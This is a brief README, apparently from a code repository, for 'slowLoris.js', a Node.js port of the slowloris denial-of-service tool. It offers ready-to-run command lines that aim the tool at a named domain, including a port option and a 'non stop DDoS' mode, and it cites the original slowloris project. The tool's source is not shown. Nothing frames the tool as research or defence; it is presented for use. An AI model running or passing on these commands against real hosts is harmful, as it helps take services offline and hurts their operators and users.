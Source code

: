 # slowLoris.js
slowLoris DDoS on Node.js

## Uses

1. install file

// minimal

```
node index.js --host=krswkrs.xyz
```

// port

```
node index.js --host=krswkrs.xyz --port=443
```

// non stop DDoS
```
node index.js --host=krswkrs.xyz --sleeptime=0
```

reference: [https://github.com/gkbrk/slowloris](https://github.com/gkbrk/slowloris)